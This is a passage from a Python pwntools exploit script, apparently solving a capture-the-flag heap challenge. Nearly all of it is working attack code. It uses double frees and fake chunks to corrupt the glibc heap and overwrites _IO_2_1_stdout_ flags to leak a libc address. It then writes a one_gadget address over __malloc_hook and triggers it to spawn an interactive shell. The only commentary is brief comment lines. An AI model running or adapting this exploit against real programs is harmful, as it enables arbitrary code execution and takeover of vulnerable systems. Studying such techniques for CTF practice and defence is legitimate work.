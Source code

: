 ```py
    allocate (p, b'104', p64 (0) * 2) # 3
    allocate (p, b'104', p64 (0) * 2) # 4
    allocate (p, b'104', b'ndd') # 5 fake chunk
    free (p, b'0')
    allocate (p, b'104', p64 (0) * 3 + p64 (0xa1)) # 6 
    free (p, b'5')

    ### change the fd pointer of chunk (in unsortedbin) to _IO_2_1_stdout_
    free (p, b'0')
    allocate (p, b'104', p64 (0) * 3 + p64 (0x71) + b'\xdd\x45') # 7
    
    ### Attack _IO_2_1_stdout_
    print ("Attack _IO_2_1_stdout_ -----------------------------------------------------------------------------")
    free (p, b'0')
    free (p, b'1')
    free (p, b'0')
    allocate (p, b'104', b'\x20') # 8
    allocate (p, b'104', p64 (0) * 2) # 9
    allocate (p, b'104', p64 (0) * 2) # 10
    allocate (p, b'104', b'dd') # 11

    _IO_MAGIC = 0xfbad0000
    _IO_IS_APPENDING = 0x1000
    _IO_CURRENTLY_PUTTING = 0x800
    print ("The value of _IO_MAGIC | _IO_IS_APPENDING | _IO_CURRENTLY_PUTTING is: ", (_IO_MAGIC | _IO_IS_APPENDING | _IO_CURRENTLY_PUTTING))
    allocate (p, b'104', b'\x00' * 0x33 + p64 (_IO_MAGIC | _IO_IS_APPENDING | _IO_CURRENTLY_PUTTING) + p64 (0) * 3 + b'\xa0\x3b') # 12

    libc.address = u64 (p.recv (6) + b'\x00' * 2) - libc.symbols['main_arena'] - 104
    print ("The libc address is: ", hex (libc.address))

    ## get shell

    print ("Get shell ---------------------------------------------------------------------------------")

    free (p, b'5')
    free (p, b'0')
    allocate (p, b'104', p64 (0) * 3 + p64 (0x71) + p64(libc.sym['__malloc_hook'] - 0x23)) # 13
    allocate (p, b'104', b'ndd') # 14
    allocate (p, b'104', b'\x00' * 0x13 + p64 (libc.address + 0xef6c4)) # 15
    free (p, b'0')
    free (p, b'0')

    p.interactive()


if __name__ == "__main__":
    main()
```
